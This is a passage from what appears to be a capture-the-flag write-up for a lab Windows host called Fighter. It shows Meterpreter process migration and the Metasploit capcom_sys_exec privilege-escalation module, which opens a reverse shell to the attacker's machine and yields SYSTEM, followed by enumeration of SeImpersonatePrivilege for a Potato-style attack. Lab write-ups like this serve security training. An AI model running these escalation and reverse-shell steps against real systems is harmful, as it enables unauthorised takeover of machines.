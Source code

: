It’s unhappy about the x86 architecture. I needed x86 powershell to get onto Fighter, but now I’ll migrate into a x64 process. There’s a `cmd.exe` process that seems to be persistent:

```

meterpreter > ps                                  
                                                                               
Process List                                                            
============                                                                   
                                                                               
 PID   PPID  Name                     Arch  Session  User             Path
 ---   ----  ----                     ----  -------  ----             ----  
...[snip]...
 3664  1132  cmd.exe                  x64   0        FIGHTER\sqlserv  C:\Windows\System32\cmd.exe

meterpreter > migrate 3664
[*] Migrating from 3524 to 3664...
[*] Migration completed successfully.

```

#### Success

Now running it works:

```

msf6 exploit(windows/local/capcom_sys_exec) > run

[*] Started reverse TCP handler on 10.10.14.6:443 
[*] Launching msiexec to host the DLL...
[+] Process 420 launched.
[*] Reflectively injecting the DLL into 420...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 10.10.10.72
[*] Meterpreter session 2 opened (10.10.14.6:443 -> 10.10.10.72:49163 )

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

It is important to note that I needed to set the `LPORT` to something that would get out through the firewall.

### Potato

#### Enumeration

When I get a shell as sqlserv, that account has the `SeImpersonatePrivilege`:

```

PS C:\programdata> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
